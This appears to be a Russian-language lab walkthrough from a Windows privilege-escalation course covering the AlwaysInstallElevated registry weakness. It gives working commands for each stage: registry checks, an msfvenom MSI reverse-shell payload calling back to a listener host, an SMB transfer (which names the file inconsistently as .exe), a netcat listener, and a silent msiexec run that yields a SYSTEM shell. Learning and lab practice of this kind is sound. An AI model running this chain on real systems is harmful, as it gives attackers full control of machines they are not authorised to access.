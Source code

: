 # 🐾 8. Реестр - AlwaysInstallElevated
---
## 📜 Описание задания
В этом задании мы исследуем уязвимость, связанную с ключом реестра `AlwaysInstallElevated`. Этот ключ позволяет запускать установщики с привилегиями SYSTEM, даже если они выполняются пользователем с ограниченными правами. Мы воспользуемся этим для получения обратного шелла с привилегиями SYSTEM, используя Windows Installer.

---
## 🔍 Шаг 1: Проверка ключей реестра
Сначала проверим, установлены ли значения в реестре для ключей `AlwaysInstallElevated`. Выполните следующие команды:
`reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`
`reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated`

### 📋 Ожидаемый вывод
- Убедитесь, что оба ключа установлены в `1` (0x1), что позволяет запускать установщики с привилегиями SYSTEM.
![image](https://github.com/user-attachments/assets/3c48a59a-a572-433b-9279-45cd39ec1312)

## 🔑 Шаг 2: Генерация обратного шелла с помощью msfvenom
Теперь используем `msfvenom` на Kali для создания установочного файла `.msi` с обратным шеллом. Выполните следующую команду:
`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.10.10 LPORT=53 -f msi -o reverse.msi`

### 📋 Ожидаемый вывод
- Убедитесь, что файл `reverse.msi` успешно создан.

## 📝 Шаг 3: Перенос файла на Windows
Теперь перенесем созданный файл `reverse.msi` на целевую машину Windows в каталог `C:\PrivEsc`. Используем SMB сервер для передачи файла:

1. На Kali запустите SMB сервер, если это еще не сделано.
2. Скопируйте файл с Kali на Windows:
   `copy \\LHOST\kali\reverse.exe C:\PrivEsc\reverse.exe`

### 📋 Ожидаемый вывод
- Убедитесь, что файл успешно перенесен в каталог `C:\PrivEsc`.

## 🎧 Шаг 4: Запуск слушателя
Перед запуском установщика убедитесь, что у вас запущен слушатель на Kali. Выполните команду:
`nc -lvnp 53`

## 🚀 Шаг 5: Запуск установщика
Теперь мы можем запустить установщик `reverse.msi`, который выполнит обратный шелл с привилегиями SYSTEM. Выполните следующую команду на целевой машине Windows:
`msiexec /quiet /qn /i C:\PrivEsc\reverse.msi`

### 📋 Ожидаемый вывод
- Убедитесь, что вы получили обратный шелл с привилегиями SYSTEM на Kali.
![image](https://github.com/user-attachments/assets/b0432081-ff06-4f95-a508-dc09c1b2313e)

## 🎉 Поздравления!
Вы успешно использовали уязвимость в реестре `AlwaysInstallElevated` для запуска установщика с привилегиями SYSTEM и получения обратного шелла! 🎊

## 📌 Примечания
- Убедитесь, что вы понимаете все шаги и их последствия.
- Используйте полученные знания ответственно и только в рамках разрешенных тестов на проникновение.
